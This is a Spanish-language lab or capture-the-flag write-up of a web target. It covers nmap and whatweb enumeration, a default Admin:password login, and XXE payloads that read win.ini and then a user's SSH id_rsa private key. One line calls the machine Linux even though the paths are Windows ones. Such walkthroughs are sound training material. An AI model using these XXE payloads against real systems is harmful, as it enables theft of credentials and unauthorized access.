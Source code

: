 -----------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.127.52/
```

![[Markup5.png]]
```shell
nmap --script http-enum -p80,443 10.129.127.52 -oN webScan
```

![[Markup6.png]]
No nos da ninguna informacion relevante

-------
# Pagina principal
Necesitamos descubrir el usuario y contraseña
![[Markup7.png]]
Probando las contraseñas mas comunes dan las credenciales
Admin:password
https://cybernews.com/best-password-managers/most-common-passwords/

----------

# [[XXE (XML External Entity)]] y conexion por [[ssh]]

Interceptamos con burpsuite la peticion de la parte de ordenes de la pagina
![[Markup10.png]]

![[Markup12.png]]
Ahora vamos a cambiar la estructura del XML por lo que vimos en el [articulo de xxe payloadallthethings](https://gitlab.com/kalilinux/packages/payloadsallthethings/-/tree/kali/master/XXE%20Injection)
![[Markup14.png]]

Como estamos en una maquina linux, vamos a leer el archivo win.ini de prueba, en la parte que pusimos &test; lo hicimos por que el unico output que se muestra como se ve en la primera foto es el de esa etiqueta
```xml
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<order><quantity>test</quantity><item>&test;</item><address>test2</address></order>
```


![[Markup13.png]]

### Sacamos archivo de id_rsa
Como sabemos que existe el usuario daniel y esta activo el servicio de ssh por el puerto 22 como vimos antes con nmap
Vamos a ver si en su escritorio tiene las claves de ssh
```
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>test</quantity><item>&test;</item><address>test2</address></order>
```
